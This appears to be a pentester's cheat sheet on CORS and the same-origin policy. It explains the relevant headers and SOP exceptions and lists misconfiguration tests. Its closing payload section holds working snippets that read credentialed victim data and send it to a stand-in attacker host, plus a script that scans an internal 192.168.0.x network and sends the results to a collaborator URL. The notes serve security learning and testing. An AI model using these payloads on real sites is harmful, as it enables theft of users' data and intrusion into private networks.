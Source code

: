 # CORS

	CORS : Cross-Origin Resource Sharing
	SOP : Same-Origin Policy

###### notes:
- SOP prevent javascript codes of domain from accessing other domains response 
it prevent the access if the domain or the port are not equivalent
- SOP will allow access between different domains if both domains set the same domain name to object `document.domain`
- `Access-Control-Allow-Origin`  header set the origins that are allowed  to access response from the site, it maches the `Origin` from the request with `Access-Control-Allow-Origin` from the response, if matched the browser will allow code running on main site to access response from requested site
- the header `Access-Control-Allow-Credentials` default is false, if set to true the browser will permit sending requests with user cookies
- this combined headers are not allowed for security reasons.
```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```
- the header ``Access-Control-Request-Headers: Special-Request-Header`` asks for the allowed request methods 
- ###### CORS doesn't provide protection against CSRF attacks

###### some exceptions to the same-origin policy:
- some objects are writable but not readable cross-domain, such as `location` object or `location.href` from iframes or new windows
- some objects are readable but not writable cross-domain, such as `length` property of the window object and the `closed` property 
- the replace function can generally be called cross-domain on the location object `location.replace()`
- you can call certian functions cross-domain, such as the functions `close`, `blur`, `focus` on a new window, also `postMessage` function can be called on iframes 




###### CORS misconfig:
- change Origin header to the  `null` value 
- change Origin header to one that begins with the origin of the site
- change Origin header to one that ends with the origin of the site
- harmless xss can be harmful if the vuln site is trusted by domain that contain sensitive information


###### payloads:
- simple payload 
```javascript
var req = new XMLHttpRequest(); req.onload = reqListener; 
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); 
req.withCredentials = true; req.send(); function reqListener() { 
location='//malicious-website.com/log?key='+this.responseText; };
```
- create cross-origin contain the value `null` in the Origin header
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; req.send(); function reqListener() { location='malicious-website.com/log?key='+this.responseText; }; </script>"></iframe>
```
- access internal network via CORS attacks
```html
<script>
    var q = [],
        collaboratorURL = 'http://$collaboratorPayload';
for (i = 1; i <= 255; i++) {
    q.push(function(url) {
        return function(wait) {
            fetchUrl(url, wait);
        }
    }('http://192.168.0.' + i + ':8080'));
}
for (i = 1; i <= 20; i++) {
    if (q.length) q.shift()(i * 100);
}

function fetchUrl(url, wait) {
    var controller = new AbortController(),
        signal = controller.signal;
    fetch(url, {
        signal
    }).then(r => r.text().then(text => {
        location = collaboratorURL + '?ip=' + url.replace(/^http:\/\//, '') + '&code=' + encodeURIComponent(text) + '&' + Date.now();
    })).catch(e => {
        if (q.length) {
            q.shift()(wait);
        }
    });
    setTimeout(x => {
        controller.abort();
        if (q.length) {
            q.shift()(wait);
        }
    }, wait);
} 
</script>
```